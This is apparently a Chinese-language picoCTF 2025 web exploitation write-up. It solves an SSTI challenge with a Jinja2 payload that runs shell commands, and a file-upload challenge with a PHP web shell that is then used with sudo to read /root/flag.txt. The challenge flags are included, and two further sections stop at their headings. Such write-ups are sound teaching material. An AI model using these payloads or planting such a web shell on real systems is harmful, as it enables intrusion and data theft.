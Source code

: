 ```yaml
---
title: "picoCTF 2025 Web Exploitation Write-up"
date: 2025-07-27
categories: [CTF]
tags: [picoCTF2025]
TocOpen: false
---
```


## 0x00 SSTI1

### 題目描述

![SSTI1 Description](./SSTI1/Description.png)

首先使用 Wappalyzer 工具識別目標網站的技術棧：

![wappalyzer](./SSTI1/wappalyzer.png)

**發現關鍵資訊**：

- 後端框架：Python Flask
- 模板引擎：Jinja2（Flask 預設）
- 可能存在 SSTI 漏洞

### 解題過程

使用基礎數學運算測試是否存在模板注入：

**Payload**: `{{9*9}}`

![test](./SSTI1/test.png)

確認存在 SSTI 漏洞，模板引擎執行了數學運算

針對 Flask/Jinja2 環境構造 payload：

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('cat fl*').read()}}
```

**Payload 解析**：

- `request.application.__globals__`: 存取 Flask 應用程式的全域變數
- `__builtins__`: 存取 Python 內建函數
- `__import__('os')`: 匯入 os 模組
- `popen('cat fl*')`: 執行系統命令讀取 flag 檔案

![SSTI1 flag](./SSTI1/flag.png)

Flag: `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_753eca43}`

## 0x01 n0s4n1ty 1

### 題目描述

![](./n0s4n1ty%201/Description.png)

存取目標網站發現檔案上傳功能，使用 Wappalyzer 識別技術棧：

![alt text](./n0s4n1ty%201/image.png)

**發現關鍵資訊**：

- 後端：PHP
- 可能存在檔案上傳漏洞
- 可嘗試上傳 Web Shell

### 解題過程

針對 PHP 後端建立簡單的 Web Shell：

```php
<?php system($_GET['cmd']); ?>
```

```bash
echo "<?php system($_GET['cmd']); ?>" > webshell.php
```

成功上傳 `webshell.php` 到伺服器的 `/uploads/` 目錄

嘗試存取 root 目錄：

```http
GET /uploads/webshell.php?cmd=ls%20/root
```

**結果**: 無回應，可能權限不足

測試是否可使用 sudo 指令：

```http
GET /uploads/webshell.php?cmd=sudo%20find%20/%20-name%20%22flag.txt%22
```

![](./n0s4n1ty%201/image%20copy.png)

**發現關鍵**：當前用戶具有 sudo 權限！

使用 sudo 權限讀取 flag：

```http
GET /uploads/webshell.php?cmd=sudo%20cat%20/root/flag.txt
```

![](./n0s4n1ty%201/flag.png)

Flag: `picoCTF{wh47_c4n_u_d0_wPHP_5f3c22c0}`

## 0x02 head-dump

- **難度**: Medium
- **分類**: Web Exploitation
- **技術**: HTTP Headers Analysis

### 題目描述

![](./head-dump/d.png)

## 0x03 Cookie Monster Secret Recipe

### 題目描述
